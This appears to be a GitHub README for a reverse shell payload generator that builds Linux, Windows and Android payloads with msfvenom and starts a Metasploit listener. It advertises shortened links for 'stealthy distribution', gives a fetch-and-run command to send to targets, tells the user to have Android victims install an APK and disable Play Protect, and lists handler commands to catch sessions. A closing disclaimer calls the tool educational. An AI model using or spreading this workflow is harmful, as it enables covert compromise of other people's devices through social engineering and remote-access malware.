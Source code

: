 # **Reverse Shell Payload Generator**  

🔥 **Quickly generate Linux, Windows, and Android reverse shell payloads** and start a Metasploit listener for easy control.  

---

## **🚀 Features**  
✅ Generate payloads for:  
- **Linux** (`.elf`)  
- **Windows** (`.exe`)  
- **Android** (`.apk`)  

✅ **Automatic HTTP server setup** for easy file delivery  
✅ **Shortened links** for stealthy distribution  
✅ **Metasploit auto-config** to listen for incoming sessions  

---

## **📌 Installation & Setup**  

### **1️⃣ Install Dependencies**  
Ensure you have:  
- **Python 3**  
- **Metasploit Framework**  
- **`msfvenom`** (part of Metasploit)  

For Debian/Ubuntu, run:  
```bash
sudo apt update && sudo apt install metasploit-framework python3
```

---

### **2️⃣ Run the Script**  
```bash
python3 script.py
```

---

## **🛠 Usage**  
When you run the script, you’ll see this menu:  

```
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║
███████╗█████╗     ██║   ███████║
╚════██║██╔══╝     ██║   ██╔══██║
███████║███████╗   ██║   ██║  ██║
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝

🔥 Quicker way to generate that rev shell 🔥

[1] Linux Reverse Shell
[2] Windows Reverse Shell
[3] Android Reverse Shell
[4] Start Metasploit & Monitor sessions
[0] Exit
```

**Choose an option:**  
- **1, 2, or 3** → Generates a payload and gives a **download link**  
- **4** → Starts a **Metasploit listener** to catch the session  

---

## **📡 Delivering the Payload**  

### **🔹 Linux & Windows Targets**  
Send the generated command:  
```bash
wget -qO <payload> <shortened_link> && chmod +x <payload> && ./<payload>
```

### **🔹 Android Targets**  
Tell them to **open the link in their browser** and install the APK manually.  

> **Play Protect Warning:**  
> They may need to **disable Play Protect** in the Google Play Store to install the APK.  

---

## **📡 Start the Listener (Metasploit)**  
Once a payload is executed, start listening:  

```bash
use exploit/multi/handler
set payload <payload_type>
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

When the target runs the payload, **you get a session**! 🎯  

---

## **⚠️ Disclaimer**  
This tool is for **educational purposes only**. Unauthorized use **is illegal**. **Use it only on systems you have permission for!**  

---
